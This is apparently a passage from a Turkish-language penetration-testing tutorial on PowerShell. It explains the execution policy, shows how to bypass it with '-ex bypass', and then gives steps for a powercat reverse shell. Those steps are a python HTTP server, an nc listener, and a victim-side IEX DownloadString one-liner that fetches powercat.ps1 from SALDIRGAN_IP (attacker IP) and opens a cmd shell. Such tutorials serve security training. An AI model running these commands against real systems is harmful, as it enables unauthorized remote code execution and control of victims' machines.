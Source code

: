 Fakat sistemlerin çoğunda bunu yapamayız çünkü çalıştırma politikası buna izin vermez.

PowerShell'in çalıştırma ilkesi, sistemi kötü amaçlı komut dosyalarının çalıştırılmasına karşı koruyan bir güvenlik seçeneğidir. Varsayılan olarak Microsoft, güvenlik amacıyla PowerShell komut dosyaları .ps1'in yürütülmesini devre dışı bırakır. PowerShell yürütme ilkesi Kısıtlı(Restricted) olarak ayarlanmıştır; bu, bireysel komutlara izin verdiği ancak herhangi bir komut dosyası çalıştırmadığı anlamına gelir.

Windows’unuzun mevcut PowerShell ayarını aşağıdaki gibi belirleyebilirsiniz,

Powershell'de --> Get-ExecutionPolicy

Bu politikayı kolayca değiştirebiliyoruz :

Powershell'de --> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned

![psh2.png](img/psh2.png)

Eğer powershell'e erişimimiz yok ise bu kısıtlamayı bypass edebiliyoruz :

powershell -ex bypass -File dosya.ps1

![psh3.png](img/psh3.png)

#### Powershell ile Reverse Shell Almak

Bunun için powercat aracını kullanacağız. Powercat, netcat'in windows için tasarlanmış halidir. Windows'ta port dinleme, bir port'a bağlanma, dosya transferi vb. yapılabilir. Git clone ile powercat'i kendi makinemize çektikten sonra powercat dizinine girip burada http server başlatıyoruz : python -m http.server 8080 Daha sonra bağlantıyı dinleyeceğimiz portu listening moda alıyoruz : nc -lvp 1337 Kurban makinede aşağıdaki komutu çalıştırdığımızda reverse shell'imizi elde etmiş oluyoruz :

     powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://SALDIRGAN_IP:8080/powercat.ps1');powercat -c SALDIRGAN_IP -p 1337 -e cmd"
